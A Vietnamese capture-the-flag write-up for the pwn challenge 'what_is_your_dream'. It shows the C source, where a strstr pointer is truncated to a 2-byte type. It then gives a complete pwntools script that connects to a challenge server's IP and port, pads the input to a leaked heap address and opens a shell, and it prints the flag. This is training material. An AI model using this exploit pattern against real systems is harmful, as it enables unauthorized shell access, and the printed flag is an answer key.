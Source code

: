 # what\_is\_your\_dream (Pwn)

Bài này cho sẵn source code&#x20;

{% code lineNumbers="true" %}
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#ifdef bool
#undef bool
#endif
typedef short bool;
#define SIZE 100000
bool check_dream(char *key, char *temp)
{
    return strstr(temp,key);
}
const static char *my_dream = "Wanna.w^n";
int main() 
{
    char *buf = malloc(SIZE);
    printf("welcome to Wanna.w^n, this is your gift: %p\n",buf);
    printf("Do you want to know what my dream is?\n");
    printf("You have to find it by yourself ");
    fflush(stdout);
    fgets(buf,SIZE,stdin);
    if(check_dream(my_dream,buf))
    {
        printf("too bad, I wish you could see my dream\n");
        printf("now GET OUT!!!\n");
        exit(-1);
    }
    if(strstr(buf,my_dream))
    {
        printf("yay, congratulation on finding my dream\n");
        printf("I hope you enjoy it <3\n");
        system("/bin/sh");
    }else{
        puts("Goodbye!");
    }

    free(buf);
return 0;
}
```
{% endcode %}

Bài này bị dính lỗi typecat ở hàm `check_dream`, hàm strstr trả về địa chỉ ( 8 byte ) nhưng hàm `check_dream` kiểu bool chỉ nhận 2 byte.

Ta cần ghi biến buf sao cho hàm strstr trả về một địa chỉ có 2 byte cuối là null -> bypass if ở line 22 và nhảy vào if ở line 28.

Bài này đã cho leak địa chỉ của biến buf trước, mình xài vài thuật toán bit để tính địa chỉ mới có 2 byte cuối null mà không quá xa buf ( biến buff đc ghi tối đa 100000).

```python
((leak >> 8*2) +1 ) << 8*2
```

Script giải

{% code lineNumbers="true" %}
```python
from pwn import *
from time import sleep
e=ELF("./what_is_your_dream")

p=remote("45.122.249.68", 10021)
p.recvuntil(b"gift: ")
sleep(1)
leak=p.recvuntil(b"\n").rstrip()
sleep(1)
leak=int(leak[2:],16)
t=((leak >> 8*2) +1 ) << 8*2
log.info(hex(leak))
log.info(hex(t))
#gdb.attach(p,gdbscript="b *main+135\nb *main+196")
p.sendline(b"A"*(t-leak)+b"Wanna.w^n")
sleep(1)
p.interactive()

```
{% endcode %}

<figure><img src="../../.gitbook/assets/Screenshot 2022-10-11 135722.png" alt=""><figcaption></figcaption></figure>

Flag: `W1{d0nt_Us3_b0ol_1n_c_if_y0u_d0nt_g3t_it!!!1!}`
